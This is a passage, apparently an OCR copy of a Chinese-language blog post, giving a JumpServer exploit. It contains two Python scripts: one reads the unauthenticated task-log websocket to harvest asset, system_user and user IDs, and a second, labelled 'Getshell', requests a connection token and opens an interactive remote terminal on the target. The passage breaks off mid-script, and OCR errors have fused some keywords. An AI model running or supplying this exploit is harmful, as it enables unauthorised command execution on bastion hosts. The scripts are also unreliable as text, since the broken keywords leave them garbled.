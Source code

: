 获取到 asset,system_user,user 三个 ID 值  

```
import asyncio
import re
 
import websockets
import json
 
url = "/ws/ops/tasks/log/"
 
async def main_logic(t):
   print("#######start ws")
    async withwebsockets.connect(t) as client:
        awaitclient.send(json.dumps({"task":"/opt/jumpserver/logs/gunicorn"}))
        while True:
            ret = json.loads(awaitclient.recv())
           print(ret["message"], end="")
 
if __name__ == "__main__":
    host ="http://192.168.217.159:8080"
    target =host.replace("https://","wss://").replace("http://", "ws://") + url
    print("target:%s" % (target,))
   asyncio.get_event_loop().run_until_complete(main_logic(target))
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjqpoq0ib9pTPTrx1WTO9XGicDMBh6UXkl4FFjAibGfC6paQiaJxpqUudd5XMxLtY3DicHtuS5F83qw78Q/640?wx_fmt=png)

2、将 asset，system_user，user 三个 ID 值  

放入下面脚本，运行 Getshell  

```
import os
import asyncio
import aioconsole
import websockets
import requests
import json
 
url = "/api/v1/authentication/connection-token/?user-only=1"
 
 
def get_celery_task_log_path(task_id):
    task_id =str(task_id)
    rel_path =os.path.join(task_id[0], task_id[1], task_id + ".log")
    path =os.path.join("/opt/jumpserver/", rel_path)
    return path
 
 
async def send_msg(websocket, _text):
    if _text =="exit":
        print(f'youhave enter "exit", goodbye')
        awaitwebsocket.close(reason="user exit")
        returnFalse
    awaitwebsocket.send(_text)
 
 
async def send_loop(ws, session_id):
    while True:
        cmdline =await aioconsole.ainput()
        awaitsend_msg(
            ws,
           json.dumps(
               {"id": session_id, "type":"TERMINAL_DATA", "data": cmdline + "\n"}
            ),
```